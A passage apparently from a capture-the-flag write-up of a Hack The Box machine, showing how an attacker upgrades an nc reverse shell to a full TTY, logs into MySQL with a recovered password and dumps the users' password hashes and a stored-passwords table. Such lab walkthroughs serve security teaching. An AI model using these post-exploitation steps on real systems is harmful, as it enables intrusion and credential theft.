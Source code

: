 Now let's upgrade the shell to get full TTYs :

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

now we can use the mysql client :

```shell
mysql -usuperpassuser -p
```

With the password : `dSA6l7q*yIVs$39Ml6ywvgK`

Let's explore the databases and datas :

```text
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.00 sec)

mysql> use superpass
| users               |
+---------------------+
2 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
| id | username | hashed_password                                                                                                          |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
|  1 | 0xdf     | $6$rounds=200000$FRtvqJFfrU7DSyT7$8eGzz8Yk7vTVKudEiFBCL1T7O4bXl0.yJlzN0jp.q0choSIBfMqvxVIjdjzStZUYg6mSRB2Vep0qELyyr0fqF. |
|  2 | corum    | $6$rounds=200000$yRvGjY1MIzQelmMX$9273p66QtJQb9afrbAzugxVFaBhb9lyhp62cirpxJEOfmIlCy/LILzFxsyWj/mZwubzWylr3iaQ13e4zmfFfB1 |
|  9 | john     | $6$rounds=200000$VoP/vPSQ9vR2Lot5$3taBxfwmbmDi0m/cuutknGhbKh7PRyMy0SE3j2LUY//GeOH3qMY7W1gd/vTi9eHU23x9QUIw15gCjzNtYMrOH0 |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
3 rows in set (0.00 sec)

mysql> select * from  passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
```